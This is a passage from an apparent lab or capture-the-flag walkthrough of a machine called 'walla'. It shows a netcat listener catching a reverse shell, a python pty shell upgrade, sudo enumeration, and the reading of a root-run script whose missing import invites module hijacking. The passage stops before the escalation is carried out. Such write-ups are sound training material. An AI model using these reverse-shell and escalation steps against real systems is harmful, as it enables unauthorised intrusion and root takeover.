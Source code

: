 ```
kali@kali:~$ nc -nlvp 4444
listening on [any] 4444 ...
192.168.120.98: inverse host lookup failed: Unknown host
connect to [192.168.118.5] from (UNKNOWN) [192.168.120.98] 49742
python -c 'import pty; pty.spawn("/bin/bash")'
www-data@walla:/var/www/html/includes$
```

## Escalation

### Sudo Enumeration

Let's first check what commands this user is able to run with `sudo`.

```
www-data@walla:/var/www/html/includes$ sudo -l
sudo -l
Matching Defaults entries for www-data on walla:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on walla:
    (ALL) NOPASSWD: /sbin/ifup
    (ALL) NOPASSWD: /usr/bin/python /home/walter/wifi_reset.py
    (ALL) NOPASSWD: /bin/systemctl start hostapd.service
    (ALL) NOPASSWD: /bin/systemctl stop hostapd.service
    (ALL) NOPASSWD: /bin/systemctl start dnsmasq.service
    (ALL) NOPASSWD: /bin/systemctl stop dnsmasq.service
    (ALL) NOPASSWD: /bin/systemctl restart dnsmasq.service
```

We find that the `www-data` user has the ability to execute a number of commands as root. Of the above entries, one in particular looks interesting:

```
    (ALL) NOPASSWD: /usr/bin/python /home/walter/wifi_reset.py
```

We are able to run this script with elevated privileges. Let's check if we can modify it to include a reverse shell.

```
www-data@walla:/var/www/html/includes$ ls -l /home/walter/wifi_reset.py
ls -l /home/walter/wifi_reset.py
-rw-r--r-- 1 root root 251 Sep 17 14:31 /home/walter/wifi_reset.py
```

Unfortunately, we cannot write to this script. We can, however, read it.

```
www-data@walla:/var/www/html/includes$ cat /home/walter/wifi_reset.py
cat /home/walter/wifi_reset.py
#!/usr/bin/python

import sys

try:
        import wificontroller
except Exception:
        print "[!] ERROR: Unable to load wificontroller module."
        sys.exit()

wificontroller.stop("wlan0", "1")
wificontroller.reset("wlan0", "1")
wificotroller.start("wlan0", "1")
www-data@walla:/var/www/html/includes$
```
